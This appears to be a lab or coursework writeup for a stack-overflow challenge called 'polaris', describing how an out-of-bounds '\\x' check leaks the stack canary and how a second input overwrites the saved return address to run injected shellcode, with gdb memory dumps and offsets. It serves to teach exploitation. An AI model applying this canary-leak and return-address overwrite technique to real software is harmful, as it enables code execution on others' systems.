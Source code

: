 # 03 - polaris  Writeup

## Main Idea

top of stack

0xffffd68c  RIP
compiler  pad
0xffffd66c  c.buffer
0xffffd65c  c.answer

stack pointer

The branch in line 25 `if (c.buffer[i] == '\\' && c.buffer[i+1] == 'x')` is vulnerable.
The BUFLEN = 16, when the buffer[12] == '\' and  buffer[13] == 'x', `i` will jump into 16, which is out of the buffer.
And the value in stack will be written into c.answer, and We can get it.

The canary will be the same when the program is running.
We can get the canary from the first stdin and stdout.
And use the canary and overwrite the RIP in the second try.

## Magic Numbers

The address of buffer is `0xffffd66c`, the RIP is `0xffffd68c`, so the location of RIP is 32 bytes away from the start of the buffer.

``` C++
(gdb) x/16x c.buffer
0xffffd66c:     0x00000000      0x00000000      0xffffdfe1      0x0804cfe8      
0xffffd67c:     0x21908aac      0x0804d020      0x00000000      0xffffd698
0xffffd68c:     0x08049341      0x00000000      0xffffd6b0      0xffffd72c      
0xffffd69c:     0x0804952a      0x00000001      0x08049329      0x0804cfe8      
(gdb) i f
Stack level 0, frame at 0xffffd690:
 eip = 0x804922e in dehexify (dehexify.c:22); saved eip = 0x8049341
 called by frame at 0xffffd6b0
 source language c.
 Arglist at 0xffffd688, args:
 Locals at 0xffffd688, Previous frame's sp is 0xffffd690
 Saved registers:
  ebp at 0xffffd688, eip at 0xffffd68c
```

## Exploit Structure

We can run this program many times to determine the position of stack canary in 0xffffd67c. 
Here is the stack diagram.

The exploit has two tries:

The first try:

1. Write 12 dummy characters to overwrite `buf`
2. Write "\\x\n", the program will jumpy into the canary.
3. Receive the answer, and canary will be in answer[13:17],  [0:12] means pad, [12] means \\x dehexify, [13:17] means canary, and save canary in python string.

The second try:

1. write 16 dummy characters to buffer
2. write canary
3. write 12 pad, and the RIP will sit in the next byte.
4. overwrite the RIP with magic-code, "\x90\xd6\dff\xff", which is the RIP address('0xffffd68c') + 4 
5. write SHELLCODE.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x c.buffer
0xffffd66c:     0x41414141      0x41414141      0x41414141      0x00414141
0xffffd67c:     0x3ae2fc37      0x42424242      0x42424242      0x42424242
0xffffd68c:     0xffffd690      0xdb31c031      0xd231c931      0xb05b32eb
0xffffd69c:     0xcdc93105      0xebc68980      0x3101b006      0x8980cddb
```


